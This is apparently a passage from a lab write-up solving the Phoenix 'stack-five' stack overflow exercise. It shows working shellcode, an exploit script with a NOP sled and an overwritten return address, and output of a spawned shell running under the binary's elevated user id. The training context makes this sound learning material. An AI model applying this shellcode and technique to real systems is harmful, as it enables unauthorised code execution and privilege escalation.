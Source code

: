 So we can overwrite the ```$rip``` correctly

Crafting the payload,

```c
user@phoenix-amd64:~$ python -c "print('\x90'*30+'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'+'\x90'*(128-30-27)+'B'*8+'\xd0\xe5\xff\xff\xff\x7f')"
1HѝЌH�T_RWT^;BBBBBBBB0�
user@phoenix-amd64:~$ python -c "print('\x90'*30+'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'+'\x90'*(128-30-27)+'B'*8+'\xd0\xe5\xff\xff\xff\x7f')" > exploit
```

Testing it in debugger,

```c
(gdb) r <exploit
Starting program: /home/user/stack-five <exploit
Welcome to phoenix/stack-five, brought to you by https://exploit.education
process 9904 is executing new program: /bin/dash
warning: Could not load shared library symbols for linux-vdso.so.1.
Do you need "set solib-search-path" or "set sysroot"?
[Inferior 1 (process 9904) exited normally]
```

Exploit in python,

```c
user@phoenix-amd64:~$ cd /tmp/
user@phoenix-amd64:/tmp$ cat exploit.py
from pwn import *
rip="\xd0\xe5\xff\xff\xff\x7f"
#rip=p64(0x7fffffffe5d0)
bp="B"*8
shellcode="\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
nops="\x90"
payload=""
payload+=nops*32
payload+=shellcode
payload+="A"*(128-len(payload))
payload+=bp
payload+=rip
print(payload)
```

Lets run our exploit,

```c
user@phoenix-amd64:~$ (python /tmp/exploit.py;cat) | /opt/phoenix/amd64/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
id
uid=1000(user) gid=1000(user) euid=405(phoenix-amd64-stack-five) egid=405(phoenix-amd64-stack-five) groups=405(phoenix-amd64-stack-five),27(sudo),1000(user)
whoami
phoenix-amd64-stack-five
ls
format-zero
ls -la
total 52
drwxr-xr-x 4 user user 4096 Jun 11 06:37 .
drwxr-xr-x 3 root root 4096 Jan 13  2019 ..
-rw------- 1 user user 9349 Jun 11 06:33 .bash_history
-rw-r--r-- 1 user user  220 Jan 13  2019 .bash_logout
-rw-r--r-- 1 user user 3526 Jan 13  2019 .bashrc
-rw------- 1 user user  389 Jun 11 06:37 .gdb_history
drwxr-xr-x 2 user user 4096 Jun 11 05:40 .nano
-rw-r--r-- 1 user user  675 Jan 13  2019 .profile
```